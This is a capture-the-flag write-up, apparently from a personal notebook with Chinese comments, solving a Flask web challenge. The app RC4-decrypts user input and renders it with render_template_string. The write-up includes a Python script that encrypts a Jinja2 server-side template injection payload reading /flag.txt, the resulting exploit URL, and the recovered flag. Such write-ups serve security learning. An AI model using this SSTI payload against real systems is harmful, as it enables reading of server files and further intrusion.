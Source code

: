 ![[Pasted image 20230126100744.png|500]]

```
/
```

```
Welcome To Find Secret
```

```
/robots.txt
```

```
It is Android ctf
```

![[Pasted image 20230126103511.png|500]]

```
/secret
```

```
Tell me your secret.I will encrypt it so others can't see
```

```
/secret?secret=a
```

```
4
```

```
/secret?secret=4
```

```
a
```

```
/secret?secret=hello
```

![[Pasted image 20230126135545.png|700]]

```python
if (secret==None):
	return 'Tell me your secret.I will encrypt it so others can\'t see'
rc=rc4_Modified.RC4("HereIsTreasure")   #解密
deS=rc.do_crypt(secret)

a=render_template_string(safe(deS))

if 'ciscn' in a.lower():
	return 'flag detected!'
return a
```

是没有见过的加密方式qaq

[RC4加密法](https://zh.wikipedia.org/zh-cn/RC4)

![[Pasted image 20230126103403.png|1000]]

对称性好可爱～

```python
from urllib.parse import quote,unquote

s_box = [i for i in range(256)]
key = "HereIsTreasure"
j = 0
for i in range(256):
    j = (j + s_box[i] + ord(key[i % len(key)])) % 256
    s_box[i], s_box[j] = s_box[j], s_box[i]

i = 0
j = 0
content = "{{url_for.__globals__['__builtins__']['open']('/flag.txt').read()}}"
k = ""
for ch in content:
    i = (i + 1) % 256
    j = (j + s_box[i]) % 256
    s_box[i], s_box[j] = s_box[j], s_box[i]
    k += chr(ord(ch) ^ s_box[(s_box[i] + s_box[j]) % 256])
print(quote(k))
```

```
/secret?secret=.%14LG%C2%A68%0Day%C3%93%C3%A7%2C%C2%B9%C2%BE%C3%B9%C2%AA5%C2%9FG%0B%C2%88i%C2%A7M5%C2%93-%C2%80%5E%C3%98%3B%C3%A9%3E%C2%B4r%C2%915%C3%8Ao%C3%ABk%C3%9F%C2%83%C2%A5PF%C3%BAU%C2%A3%C2%B1Gk%2C%C3%BF2x%C3%90v%06%C3%96%C2%BCK%15%C2%BD%C3%9D%04%C2%A7
```

```
'read' is not allowed. Secret is flag{bff8e2e3-a9e1-4574-bb7a-abab391e8b66} 
```

#Web #python #flask #SSTI #rc4